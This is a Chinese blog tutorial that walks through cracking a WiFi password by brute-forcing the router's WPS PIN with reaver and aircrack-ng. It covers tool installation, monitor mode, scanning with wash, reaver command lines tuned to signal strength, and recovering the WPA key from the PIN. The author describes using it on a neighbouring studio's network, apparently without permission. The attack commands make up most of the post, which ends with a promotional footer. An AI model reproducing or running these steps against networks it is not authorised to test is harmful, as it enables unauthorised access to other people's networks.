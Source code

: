 ```yaml
---
layout: post
category: binghe-code-hack
title: 使用reaver傻瓜式破解wifi之利用路由器WPS漏洞
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: 使用reaver傻瓜式破解wifi之利用路由器WPS漏洞
lock: need
---
```


# 使用reaver傻瓜式破解wifi之利用路由器WPS漏洞

跟这篇破解教程一样，网上破解教程多是基于路由器的WPS漏洞破解，但是这样的路由器只占少数。一般wifi是依据WPA/WPA2加密的，因此想要破解一般的wifi，还得破解这个协议，虽然近期这个协议也被破解了，不过也是很不容易的。

 刚入门破解，不是很熟悉，在网上找各种破解资料，终于破解成功了临近工作室的wifi，沾沾自喜~
 本文破解wifi针对一些路由器的WPS（Wi-fi protected setup）漏洞,尝试很多次抓包PIN码，破解2-3天，正常来说是一定能抓到正确的PIN码的。
 一个路由器对应唯一的MAC和PIN，而一旦得到MAC和PIN，通过reaver工具，路由密码等信息就可以很快得出来。

 1.安装依赖包：

```bash
sudo apt-get install -y libpcap-dev
libsqlite3-dev sqlite3 libpcap0.8-dev libssl-dev build-essential iw tshark subversion
```

 2.安装aircrack-ng：

```bash
svn co http://svn.aircrack-ng.org/trunk/ aircrack-ng
cd aircrack-ng/
make (aircrack-ng源码安装参考http://www.tuicool.com/articles/MfUjii)
sudo make install
```

 3.安装reaver:

 在https://pan.baidu.com/s/1kUdvM1D下载reaver

```bash
tar zxvf reaver-1.4.tar.gz
cd reaver-1.4/src
./configure
make
sudo make install
```

4.如果安装成功后，会有airmon-ng,airodump-ng,reaver等命令可用(如果没有ethtool,要安装：apt-get install ethtool)

 5.开始破解：(参考http://www.she.vc/article/18-108334-0.html http://www.kali.org.cn/thread-20995-1-1.html)
 （1）sudo airmon-ng check kill （关闭进程，部分进程可能影响到后续的操作）

```bash
Found 4 processes that could cause trouble. 
If airodump-ng, aireplay-ng or airtun-ng stops working after 
a short period of time, you may want to run 'airmon-ng check kill' 
 
	PID Name 
	431 avahi-daemon 
	446 dhcpcd 
	470 avahi-daemon 
	512 wpa_supplicant
```

（2）sudo airmon-ng

（3）sudo airmon-ng start wlan1

（4）sudo airmon-ng start wlan1mon （开启网卡，将网卡转换成混杂模式）

```bash
PHY Interface Driver Chipset 
 
phy0 wlan0 brcmfmac_sdio Broadcom 43430 
 
Missing nexutil, cannot switch to monitor mode. 
phy1 wlan1mon mt7601u Ralink Technology, Corp. 
 
(mac80211 monitor mode already enabled for [phy1]wlan1mon on [phy1]10)
```

（5）sudo airodump-ng wlan1mon （查看ap信号强度，破解的wifi信号越强越好）

（6）wash -i wlan1mon -C （查看支持wps的ap）（一种说法是：MB是54e.的可破解，54e不可破解）

 6.（正式破解，在root下）使用reaver：

 因状况调整参数：MAC即BSSID的值，-c后面的数字是CH的值。

 目标信号非常好:

```bash
reaver -i wlan1mon -b MAC -a -S -vv -d0 -c 1
```

 目标信号普通:

```bash
reaver -i wlan1mon -b MAC -a -S -vv -d2 -t 5 -c 1
```

 目标信号一般:

```bash
reaver -i wlan1mon -b MAC -a -S -vv -d5 -c 1
```



 7.每60s重新破解一次，等待三天，密码将会出来

 8.最终得到PIN码（WPS PIN）和密码（WPA PSK），如果密码 被改，只要reaver加上-p命令
 (reaver -i wlan1mon -b MAC -p PIN码 -vv)，密码又能秒出； 但如果PIN码被改，就要重新破解了。

 9.破解完成后，将网卡转回正常状态（airmon-ng stop wlan1mon）

![](https://img-blog.csdnimg.cn/20181201230356708.png)

![](https://img-blog.csdnimg.cn/20181201230518468.jpg)

备注：reaver时可以随时停止，它自己会保存进度

 升级破解固件[http://netsecurity.51cto.com/art/201105/264844_all.htm](http://netsecurity.51cto.com/art/201105/264844_all.htm)
 
 ## 写在最后
 
 > 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！
 
 
 ![](https://img-blog.csdnimg.cn/20200906013715889.png)
